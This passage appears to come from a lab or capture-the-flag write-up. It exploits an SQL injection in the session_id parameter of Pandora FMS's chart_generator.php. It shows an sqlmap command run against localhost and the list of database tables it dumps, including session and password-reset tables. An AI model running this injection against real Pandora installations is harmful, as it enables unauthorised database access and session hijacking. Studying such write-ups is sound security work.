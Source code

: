> Is vulnerable!

### SQL Tables

With this vulnerability we can see others tables of the database. Let's have a look at the tables of pandora database.

```
❯ sqlmap --url "http://localhost:8080/pandora_console/include/chart_generator.php?session_id=''" -D pandora --tables

Database: pandora
[178 tables]
+------------------------------------+
| ...                                |
| tnotification_source_user          |
| tnotification_user                 |
| torigen                            |
| tpassword_history                  |
| tperfil                            |
| tphase                             |
| tplanned_downtime                  |
| tplanned_downtime_agents           |
| tplanned_downtime_modules          |
| tplugin                            |
| tpolicies                          |
| tpolicy_agents                     |
| tpolicy_alerts                     |
| tpolicy_alerts_actions             |
| tpolicy_collections                |
| tpolicy_groups                     |
| tpolicy_modules                    |
| tpolicy_modules_inventory          |
| tpolicy_plugins                    |
| tpolicy_queue                      |
| tprofile_view                      |
| tprovisioning                      |
| tprovisioning_rules                |
| trecon_script                      |
| trecon_task                        |
| trel_item                          |
| tremote_command                    |
| tremote_command_target             |
| treport                            |
| treport_content                    |
| treport_content_item               |
| treport_content_item_temp          |
| treport_content_sla_com_temp       |
| treport_content_sla_combined       |
| treport_content_template           |
| treport_custom_sql                 |
| treport_template                   |
| treset_pass                        |
| treset_pass_history                |
| tserver                            |
| tserver_export                     |
| tserver_export_data                |
| tservice                           |
| tservice_element                   |
| tsesion                            |
| tsesion_extended                   |
| tsessions_php                      |
| tskin                              |
| ...                                |
```